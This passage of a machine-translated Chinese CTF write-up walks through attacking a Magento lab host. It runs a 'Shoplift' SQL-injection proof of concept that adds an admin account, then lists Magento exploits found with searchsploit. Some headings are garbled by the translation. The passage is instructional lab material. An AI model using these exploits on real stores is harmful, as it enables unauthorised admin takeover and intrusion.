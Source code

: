 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2F1568274800685.png) 

所有这些都使我得出结论，我真的不知道哪个版本正在运行，但我有一种预感，它可能更老。

## 壳牌作为万维数据

### 添加管理员登录名

看看谷歌和，我会发现一堆Magento的漏洞。首先，我将使用一个称为“[入店行窃](https://github.com/joren485/Magento-Shoplift-SQLI/blob/master/poc.py)”漏洞来添加管理员用户。我将下载python脚本并运行它：`searchsploit`

    root@kali# python poc.py 10.10.10.140
    WORKED
    Check http://10.10.10.140/admin with creds ypwq:123  
    

我可以通过登录 http://10.10.10.140/index.php/admin 来验证这些信誉：

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2F1557609765745.png) 

### RCE #1 - 应用程序对象注入

现在我已经被认证为管理员，还有另一个漏洞会派上用场，我发现它：`searchsploit`

    root@kali# searchsploit magento
    ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
     Exploit Title                                                                                                                                                                     |  Path
                                                                                                                                                                                       | (/usr/share/exploitdb/)
    ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
    Magento 1.2 - '/app/code/core/Mage/Admin/Model/Session.php?login['Username']' Cross-Site Scripting                                                                                 | exploits/php/webapps/32808.txt
    Magento 1.2 - '/app/code/core/Mage/Adminhtml/controllers/IndexController.php?email' Cross-Site Scripting                                                                           | exploits/php/webapps/32809.txt
    Magento 1.2 - 'downloader/index.php' Cross-Site Scripting                                                                                                                          | exploits/php/webapps/32810.txt
    Magento < 2.0.6 - Arbitrary Unserialize / Arbitrary Write File                                                                                                                     | exploits/php/webapps/39838.php
    Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution                                                                                                                       | exploits/php/webapps/37811.py
    Magento Server MAGMI Plugin - Multiple Vulnerabilities                                                                                                                             | exploits/php/webapps/35996.txt
    Magento Server MAGMI Plugin 0.7.17a - Remote File Inclusion                                                                                                                        | exploits/php/webapps/35052.txt
    Magento eCommerce - Local File Disclosure                                                                                                                                          | exploits/php/webapps/19793.txt
    Magento eCommerce - Remote Code Execution                                                                                                                                          | exploits/xml/webapps/37977.py
    eBay Magento 1.9.2.1 - PHP FPM XML eXternal Entity Injection                                                                                                                       | exploits/php/webapps/38573.txt